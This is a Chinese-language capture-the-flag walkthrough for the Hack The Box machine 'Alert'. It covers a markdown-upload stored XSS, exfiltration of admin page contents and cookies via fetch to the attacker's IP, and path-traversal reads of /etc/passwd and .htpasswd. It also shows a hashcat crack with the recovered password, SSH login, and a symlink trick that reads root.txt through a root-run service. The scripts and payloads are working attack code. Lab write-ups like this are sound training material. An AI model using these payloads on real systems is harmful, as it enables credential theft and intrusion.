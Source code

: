 HTB machine Alert workthrough:


step1:

在/etc/hosts 中添加
10.10.11.44 alert.htb
保证能够直接通过浏览器访问


step2：
访问alert.htb会发现可以上传一个markdown文件，服务器是对markdown有足够的校验的，如下(是ssh后才能读到源代码的，方便起见直接放出来)
index.php

route:  /index.php?page=alert
```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
        <?php
        $ip = $_SERVER['REMOTE_ADDR'];
        if ($ip == '127.0.0.1' || $ip == '::1') {
            echo '<a href="index.php?page=messages">Messages</a>';
        }
        ?>
    </nav>
    <div class="container">
        <?php
        if (isset($_GET['page'])) {
            $page = $_GET['page'];

            switch ($page) {
                case 'alert':
    echo '<h1>Markdown Viewer</h1>';
    echo '<div class="form-container">
            <form action="visualizer.php" method="post" enctype="multipart/form-data">
                <input type="file" name="file" accept=".md" required>
                <input type="submit" value="View Markdown">
            </form>
          </div>';
                    break;
                case 'contact':
echo '<h1>Contact Us</h1>';
echo '<div class="form-container">' . htmlspecialchars($_GET['status']) .
      '  <form action="contact.php" method="post">
            <input type="email" name="email" placeholder="Your email" required>
            <textarea name="message" placeholder="Your message" rows="4" required></textarea>
            <input type="submit" value="Send">
        </form>
      </div>';

                    break;
                case 'about':
                    echo '<h1>About Us</h1>';
                    echo '<p>Hello! We are Alert. Our service gives you the ability to view MarkDown. We are reliable, secure, fast and easy to use. If you experience any problems with our service, please let us know. Our administrator is in charge of reviewing contact messages and reporting errors to us, so we strive to resolve all issues within 24 hours. Thank you for using our service!</p>';
                    break;
                case 'messages':
                    require 'messages.php';
                    break;
                case 'donate':
                    echo '<h1>Support Us</h1>';
                    echo '<p>Your donation helps improve Markdown visualization, providing a better user experience for everyone.</p>';
                    echo '<div class="form-container">
                            <form action="#" method="post">
                                <input type="number" name="amount" placeholder="Enter amount" required>
                                <input type="submit" value="Donate">
                            </form>
                          </div>';
                    break;
                default:
                    echo '<h1>Error: Page not found</h1>';
                    break;
            }
        } else {
            header("Location: index.php?page=alert");
        }
        ?>
    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>

```
但是测试发现markdown文件包含script则能够在自己的浏览器上触发xss
step3：
route:  /index.php?page=contact
服务器不是直接包含.md文件，就是读进来而已，并且限制了文件的后缀和文件名中只能有一些合法的字符，这防止了.md的目录遍历
实际上黑盒测试中about页面已经提示你后台有个bot会看你的message，一猜就知道是xss，可以先在本地`nc -lnvp 1337`,然后发送```<script>location="http://10.10.xx.xx:1337"```去测试
连通性，注意只能用你vpn主机的ip，不能用公共域名，否则收不到tcp连接，并且不需要填充后面的scrip标签，原因是你本地nc测试之后会发现后面的部分只是累赘，会被
html编码。

step4：
route:  /visualizer.php?link_share=xxxxxx, /index.php?page=contact
连通性测试完成后就想办法让admin去访问一个有xss的页面，为什么不直接在这里xss？因为这里html编码的问题，你自己去试试会发现payload极其难以调试，特
别是引号的闭合问题。实际上markdown文件是不会转义html标签的，其中就包括`<script>`,那么就可以通过重定向到markdown文件来xss，markdown会被编译之后返回回
来并且生成一个link_share=xxx的公共链接，让admin去访问这个链接就可以执行完整的一个js代码。
贴一个python脚本：
这个脚本用于触发xss，只要修改你的a.md文件就好


```python
#xss.py
import threading
import requests
from bs4 import BeautifulSoup
import subprocess
import urllib
url="http://alert.htb"
def send_mess(a):
    email="a@qq.com"
    mes=("<script>location='{}".format(a))
    print(mes)
    r=requests.post(url+"/contact.php",data={"email":email,"message":mes},allow_redirects=False)
    print(r.status_code)
    print(r.text)
with open("a.md","rb") as f:
    res=requests.post(url+"/visualizer.php",files={"file":f}
    )
print(res.text)    
soup=BeautifulSoup(res.text,"html.parser")
a=soup.find_all("a",href=True)[0]["href"]
print(a)
send_mess(a)

```

```html
a.md
<script>
  var readfile="http://alert.htb/index.php?page=messages";//改一下page就好
  fetch(readfile)
    .then(response => response.text())
    .then(data => {     
      fetch("http://10.10.16.15:1337/?data=" + encodeURIComponent(data)+"&cookie="+document.cookie);//改成你的ip,靶机可以直接和你的主机通信
    })
    .catch(error => fetch("http://10.10.16.15:1337/?err="+error.message));
</script>

```


一个用于接受admin的请求的python 服务器:(用nc也可以)
```python
#server.py
from flask import Flask, send_from_directory, abort,request


app = Flask(__name__)

@app.route('/')
def serve_file():
    print(request.args.get('data'))
    return '200';

# 运行应用
if __name__ == '__main__':
    app.run(host='0.0.0.0',port=1337,debug=True)
```




用法：先python server.py,然后python xss.py即可（修改 a.md）
step5:


有上面的想法后，先去尝试看看admin眼中的/index.php，你就会发现有个`<a href="index.php?page=messages">Messages</a>`,暴露了一个文件出来，然后再让admin去访问这个page，就会发现messages.php接受一个file=xxxx参数，并且利用file这个参数可以读取任意文件，比如/etc/passwd,看看构造的js代码：

```html
<script>
  var readfile="http://alert.htb/messages.php?file=../../../../etc/passwd";
  fetch(readfile)
    .then(response => response.text())
    .then(data => {     
      fetch("http://10.10.16.15:1337/?data=" + encodeURIComponent(data)+"&cookie="+document.cookie);//改成你的ip,靶机可以直接和你的主机通信
    })
    .catch(error => fetch("http://10.10.16.15:1337/?err="+error.message));
</script>

```

step6:
读取/etc/hosts，发现还有个域名statistics.alert.htb，读取/etc/apache2/sites-available/000-default.conf (apache默认配置文件)发现这个域名要密码，
并且密码位于.htpasswd，根目录在/var/www/statistics.alert.htb，那么再读取.htpasswd:   albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
etc/passwd中其实有albert这个用户，并且可以ssh
尝试用hashcat破解密码：./hashcat.exe  -m 1600 -a 0 apachehash.txt rockyou.txt   (在仓库中放着)
得到$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited

step7：
ssh albert@10.10.11.44 输入密码，ls 发现user.txt，读取user flag

step8：
直接读不了rootflag
ps aux | grep root
发现root运行着php的web-monitor，在127.0.0.1:8080,进入/opt/website-monitor/monitors（只有它可写）
运行 
touch rootflag.txt
ln -sf /root/root.txt
因为phpmonitor是root运行的，你访问http://127.0.0.1:8080/monitors/rootflag.txt就会由具有root权限的进程去读取软链接的文件，这样就绕过权限读取了root.txt
